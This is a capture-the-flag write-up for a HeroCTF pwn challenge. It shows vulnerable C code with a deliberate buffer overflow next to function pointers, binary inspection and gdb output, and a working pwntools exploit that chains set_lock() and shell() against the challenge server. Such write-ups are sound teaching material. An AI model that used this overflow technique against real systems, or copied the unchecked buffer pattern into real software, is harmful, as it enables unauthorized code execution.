

# Win, but twisted

#### So we got two files
- [WinButTwisted.c](files/WinButTwisted.c) (source code)
- [WinButTwisted](files/WinButTwisted) (binary file)

#### and this message :

```
Just a little warm up, but hey, without the twist it would've been too simple.
Get the flag from the server.

Challenge : nc pwn.heroctf.fr 9003

Format : Hero{}

Author : iHuggsy
```
#

#### First thing we do is to run the program :
```console
$ ./WinButTwisted 
What would a hero say ?
>>> Hello
It looks like that s something a Hero would say
Please keep being one. :)
```

#### by also testing its limits :
```console
$ ./WinButTwisted 
>>> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Erreur de segmentation (core dumped)
```
#### We therefore understand that the size of the input buffer is not protected against buffer overflow attacks. 

#

#### To explain quickly, the buffer overflow works by overflowing the stack and will, by a function return, overwrite the old value of EIP (instruction pointer) and will therefore jump to the address we have injected.



#

#### To go further we can look at several other information like:
- the basic information of the file :
```
$ file WinButTwisted
WinButTwisted: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=30d5731a2385816deab25ce8684e2de08b24846f, for GNU/Linux 4.4.0, not stripped
```
- the exif data of the file to see the order in which the memory addresses are encoded :
```
$ exiftool WinButTwisted
ExifTool Version Number         : 11.88
File Name                       : WinButTwisted
Directory                       : .
File Size                       : 712 kB
File Modification Date/Time     : 2021:04:23 22:39:21+02:00
File Access Date/Time           : 2021:04:26 12:25:50+02:00
File Inode Change Date/Time     : 2021:04:23 22:42:06+02:00
File Permissions                : rwxrwxrwx
File Type                       : ELF executable
File Type Extension             : 
MIME Type                       : application/octet-stream
CPU Architecture                : 32 bit
CPU Byte Order                  : Little endian
Object File Type                : Executable file
CPU Type                        : i386

```

- if the stack is executable :
```console
$ readelf -l WinButTwisted | grep GNU_STACK
Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flag Align
GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW   0x10
```

#### With all this, we now know that :
- it is an ELF file
- it is statically linked (all library functions will be embedded in the binary file)
- it is not stripped (so variable/function names are kept, which will simplify our task)
- it is in Little Endian (order of writing bytes in memory, ex: 0xdeadbeef is written in memory \xef\xbexad\xde)
- the stack is not executable because there is no E flag (preventing the execution of code injected on the stack)

#

#### So now we read the C code of the file:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int UNLOCKED = 0;

void set_lock()
{
    printf("Setting lock !");
    UNLOCKED = 1;
}

void shell()
{
    printf("In shell function ! ");
    if (UNLOCKED == 1)
    {
        printf("Getting shell ! ");
        setreuid(geteuid(), geteuid());
        system("/bin/sh");
    }

    
}

void hello_hero(int hero)
{
    printf("It looks like that's something a Hero would say\n");
}

void look_like()
{
    printf("Please keep being one. :)\n");
}

int main()
{
    int (*look)() = look_like;
    int (*hello)() = hello_hero;
    char buffer[32];

    printf("What would a hero say ?\n>>> ");
    fgets(buffer, 44, stdin);
    hello();
    look();

}
```

#### We quickly understand that the final goal is to run the shell() function. But to achieve this we can see that this requires the shell to be "unlocked" by first running the set_lock() function.

#### So we have our running order of things :
``` 
[make the buffer go over with A] [set_lock() address] [shell() address]
```

#### To find out how many A we have to put in to overflow the buffer, we look at the buffer size in the code. We have this :

```c
char buffer[32];
```

#### Now that we have the size of the buffer, all we need to do is find the addresses of shell() and set_lock(). To do this we will run gdb :

```console
$ gdb WinButTwisted
gef➤  info function shell 
All functions matching regular expression "shell":

Non-debugging symbols:
0x08049999  shell
gef➤  info functions set_lock 
All functions matching regular expression "set_lock":

Non-debugging symbols:
0x08049965  set_lock
```

#### Ok, now that we have all the information we need to solve the challenge, we write ourselves a little Python script to flag the challenge

```python
#!/bin/python3

from pwn import remote, p32,log

r = remote('pwn.heroctf.fr', 9003)

#32 character a to fill buffer and overflow
payload = b'a' * 32
#the address of the set_lock function (0x08049965)
payload += p32(0x08049965)
#the address of the shell function (0x08049999)
payload += p32(0x08049999)
#displays the payload
print(payload)

r.recvuntil('>>>')
r.sendline(payload)
r.interactive()
```

#### And that's it, we get the flag : Hero{Tw1sT3D_w1N_FuNcTi0N}

```console
$ ./solver.py 
[+] Opening connection to pwn.heroctf.fr on port 9003: Done
b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaae\x99\x04\x08\x99\x99\x04\x08'
[*] Switching to interactive mode
 Setting lock !In shell function ! Hero{Tw1sT3D_w1N_FuNcTi0N}  [*] Got EOF while reading in interactive
$ 
$ 
[*] Closed connection to pwn.heroctf.fr port 9003
[*] Got EOF while sending in interactive
```
